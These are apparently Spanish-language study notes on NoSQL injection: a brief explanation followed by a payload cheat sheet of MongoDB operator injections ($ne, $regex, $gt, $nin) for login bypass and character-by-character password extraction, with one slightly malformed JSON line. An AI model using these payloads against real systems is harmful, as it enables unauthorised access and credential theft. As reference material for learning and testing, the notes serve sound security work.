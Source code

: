 -- - 
Las inyecciones NoSQL son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en documentos en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las bases de datos relacionales.
-- - 
in DATA
```json
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
# For testing
'
'+'
'%2b'
' && '1' == '2 ---> url-encoded
' && '1' == '1 ---> url-encoded
administrator' && this.password.length > 7 || 'a'=='b  ---> url-encoded
administrator' && this.password[0] == 'k' || 'a'=='b ---> url-encoded
```

in JSON:
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

```json
{
	"username":"admin",
	"password":{
	"$regex":".{29}" --> pregunto si la longitud de la contraseña es = 29
	}				   
}

{
	"username":"admin",
	"password":{
	"$regex":"^a" --> pregunto si la contraseña empieza por a
	}				   
}

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
-- - 
